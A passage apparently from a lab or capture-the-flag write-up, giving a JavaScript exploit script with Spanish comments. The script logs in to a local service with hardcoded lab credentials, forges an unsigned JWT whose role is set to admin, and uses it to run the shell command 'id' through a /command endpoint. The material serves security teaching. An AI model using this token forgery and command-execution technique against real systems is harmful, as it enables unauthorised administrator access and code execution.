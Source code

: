 We can do this manually or using the following script, which automates the process. We modify our `script.js` again:

```javascript
var command = "id";

// Petición para realizar el login y obtener el token actualizado.
petition1 = new XMLHttpRequest();
petition1.open('POST', 'http://localhost:3000/login', true);
petition1.setRequestHeader('Content-Type', 'application/json');

// Petición para ejecutar el comando.
petition2 = new XMLHttpRequest();
petition2.open('POST', 'http://localhost:3000/command', true);
petition2.setRequestHeader('Content-Type', 'application/json');

function base64urlDecode(str) {
    // Reemplaza caracteres específicos de Base64URL
    str = str.replace(/-/g, '+').replace(/_/g, '/');
    // Añadir padding si es necesario
    while (str.length % 4) {
        str += '=';
    }
    return atob(str);
}

function base64urlEncode(str) {
    return btoa(str)
        .replace(/\+/g, '-')
        .replace(/\//g, '_')
        .replace(/=+$/, '');
}

petition2.onload = () => {
    document.write("Resultado");
    document.write(petition2.responseText);
}

petition1.onload = () => {
    // Obtenemos el token JWT y lo separamos en sus partes.
    let tokenParts = JSON.parse(petition1.responseText).token.split(".");

    // Decodificamos la parte del payload y la convertimos en objeto.
    let payloadDecoded = JSON.parse(base64urlDecode(tokenParts[1]));

    // Modificamos el role del usuario.
    payloadDecoded.role = "admin";

    // Codificamos nuevamente el payload modificado.
    tokenParts[1] = base64urlEncode(JSON.stringify(payloadDecoded));

    // Reconstruimos el token modificado.
    let tokenModificado = tokenParts.join(".");

    sendSecondPetition(tokenModificado);
}

function sendSecondPetition(tokenModificado) {
    petition2.send(`{"token":"${tokenModificado}","command":"${command}"}`);
}

petition1.send('{"username":"Jose","password":"FuLqqEAErWQsmTQQQhsb"}');
```
